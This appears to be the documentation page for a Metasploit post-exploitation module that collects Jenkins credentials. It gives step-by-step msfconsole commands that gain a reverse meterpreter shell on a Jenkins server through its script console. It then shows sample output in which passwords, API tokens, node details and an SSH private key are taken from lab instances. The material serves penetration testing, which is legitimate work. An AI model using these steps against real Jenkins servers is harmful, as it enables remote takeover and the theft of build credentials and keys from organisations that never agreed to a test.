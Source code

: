 ## Vulnerable Application

  Official Source:
[Jenkins](https://jenkins.io/download/)

This module has been verified against:

  1. Jenkins 2.67 on Ubuntu 16.04 in Docker
  1. Jenkins 2.67 on Windows 7 SP 1
  1. Jenkins 2.60.1
  1. Jenkins 1.56

## Verification Steps

  1. Set up Jenkins to obtain a shell (use Docker for quick setup)
  1. Run `docker run -p 8080:8080 -p 50000:50000 jenkins`
  1. Use the default setup and install "suggested plugins"
  1. Create new user admin, add a user or credential (via Manage Jenkins)
  1. Start msfconsole
  1. We'll use the `jenkins_script_console` module to quickly gain a shell
  1. Do: ```use exploit/multi/http/jenkins_script_console```
  1. Do: ```set RHOST 172.17.0.1```
  1. Do: ```set RPORT 8080```
  1. Do: ```set TARGETURI /```
  1. Do: ```set USERNAME admin```
  1. Do: ```set PASSWORD or set API_TOKEN```
  1. Do: ```set TARGET 1```
  1. Do: ```set PAYLOAD linux/x86/meterpreter/reverse_tcp```
  1. Do: ```set LHOST 192.168.56.105```
  1. Do: ```exploit -j```
  1. Do: ```use post/multi/gather/jenkins_gather```
  1. Do: ```set SESSION 1```
  1. Do: ```run```
  1. You should see the saved credentials output

## Options

  **SEARCH_JOBS**

  This option searches through the `jobs` folder for interesting
keywords but obviously increases runtime on larger instances.

  **STORE_LOOT**

  This option saves interesting files and loot to disk. If set to
false will simply output data to console.

  **JENKINS_HOME**
  This option can be set if we want to specify where the Jenkins
data resides.

## Scenarios

**Jenkins on Windows**

```
msf post(jenkins_gather) > sessions

Active sessions
===============

  Id  Type                     Information                   Connection
  --  ----                     -----------                   ----------
  18  shell x86/linux                                        192.168.56.105:4444 -> 192.168.56.1:58828 (172.17.0.1)
  20  meterpreter x86/linux    uid=0, gid=0, euid=0, egid=0  192.168.56.105:4444 -> 192.168.56.1:58974 (172.17.0.2)
  21  meterpreter x86/windows  NT AUTHORITY\SYSTEM @ kali    192.168.56.105:4444 -> 192.168.56.101:50427 (192.168.56.101)
  23  shell x86/windows                                      192.168.56.105:4444 -> 192.168.56.101:50793 (192.168.56.101)

msf post(jenkins_gather) > info

       Name: Jenkins Credential Collector
     Module: post/multi/gather/jenkins_gather
   Platform: Linux, Windows
       Arch: 
       Rank: Normal

Provided by:
  thesubtlety

Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  JENKINS_HOME                 no        Set to the home directory of Jenkins. Linux versions default to /var/lib/jenkins, but C:\ProgramData\Jenkins\.jenkins on Windows.
  SEARCH_JOBS true             no        Search through job history logs for interesting keywords. Increases runtime.
  SESSION     17               yes       The session to run this module on.
  STORE_LOOT  true             no        Store files in loot (will simply output file to console if set to false).

Description:
  This module can be used to extract saved Jenkins credentials, user 
  tokens, SSH keys, and secrets. Interesting files will be stored in 
  loot along with combined csv output.


msf post(jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...
[*] Found Jenkins installation at C:\Program Files\Jenkins
[+] Credentials found - Username: user1 Password: Password123456
[+] SSH Key found! ID: 83c6a18f-6b35-420a-8534-cc505c3347b5 Passphrase: secretpassphrase123 Username: sshkey1 Description: interesting description
[+] Job Info found  - Job Name:  User: testpass Password: secretpass123
[+] Job Info found  - Job Name:  User: testpass Password: ohwowosupersecret
[+] Node Info found - Name: test Host: hostnode1.lab.local Port: 22 CredID: 972fc428-dd7c-46ea-a119-be78ae0866ad
[+] API Token found - Username: admin Token: 8a114e0fa48c1a489c39b98e94c986c8
[+] API Token found - Username: useruseruser Token: 6810c3f6ccca939ac2a8b8ac4b9de012
[*] Searching through job history for interesting bits...
[+] Job Log truffles:
C:\Program Files\Jenkins\jobs\asdf\builds\4\log:C:\Program Files\Jenkins\workspace\asdf>echo "secret is secret" 
C:\Program Files\Jenkins\jobs\asdf\builds\4\log:"secret is secret"
...
C:\Program Files\Jenkins\jobs\asdf\lastSuccessful\log:C:\Program Files\Jenkins\workspace\asdf>echo "secret is secret" 
C:\Program Files\Jenkins\jobs\asdf\lastSuccessful\log:"secret is secret"
[+] 
Creds
=====

 Username  Password           Description
 --------  --------           -----------
                                          
 testpass  secretpass123                   
 testpass  ohwowosupersecret  
 user1     Password123456     

[+] 
API Keys
========

 Username      API Tokens
 --------      ----------
 admin         8a114e0fa48c1a489c39b98e94c986c8
 useruseruser  6810c3f6ccca939ac2a8b8ac4b9de012

[+] 
Nodes
=====

 Node Name  Hostname             Port  Description   Cred Id
 ---------  --------             ----  -----------   -------
 test       hostnode1.lab.local  22    testtesttest  972fc428-dd7c-46ea-a119-be78ae0866ad

[+] SSH Key
[*]  ID: 83c6a18f-6b35-420a-8534-cc505c3347b5
[*]  Description: interesting description
[*]  Passphrase:  secretpassphrase123
[*]  Username:    sshkey1
[*] 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAuTfL0ijR0JDLTQC092ZolnkTJGRi7YQInK/K1ZFDFc44JOSU
...snip...
7Ad+Ja6+51ECnXJIFKPj7binB6/C10YVqHh4KON3DeA6ZA7ZpUko
-----END RSA PRIVATE KEY-----

[*] Post module execution completed


```

**Jenkins 2.67 on Ubuntu 16.04**

```
msf post(jenkins_gather) > set session 20
session => 18
msf post(jenkins_gather) > info

       Name: Jenkins Credential Collector
     Module: post/multi/gather/jenkins_gather
   Platform: Linux, Windows
       Arch:
       Rank: Normal

Provided by:
  thesubtlety

Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  SEARCH_JOBS true             no        Search through job history logs for interesting keywords. Increases runtime.
  SESSION     17               yes       The session to run this module on.
  STORE_LOOT  true             no        Store files in loot (will simply output file to console if set to false).

Description:
  This module can be used to extract saved Jenkins credentials, user
  tokens, SSH keys, and secrets. Interesting files will be stored in
  loot along with combined csv output.

msf post(jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...
[*] Found Jenkins installation at /root/.jenkins
[+] Credentials found - Username: thanksforthefish Password: whatagreatbook
[+] API Token found - Username: user1 Token: 859e1d6ee6ab85804434fa5395ab962d
[+] API Token found - Username: admin Token: 9da706c125a4b5a4c19b1f799723175c
[*] Searching through job history for interesting bits...
[+] 
Creds
=====

 Username          Password         Description
 --------          --------         -----------
 thanksforthefish  whatagreatbook

[+] 
API Keys
========

 Username  API Tokens
 --------  ----------
 admin     9da706c125a4b5a4c19b1f799723175c
 user1     859e1d6ee6ab85804434fa5395ab962d

[*] Post module execution completed
```
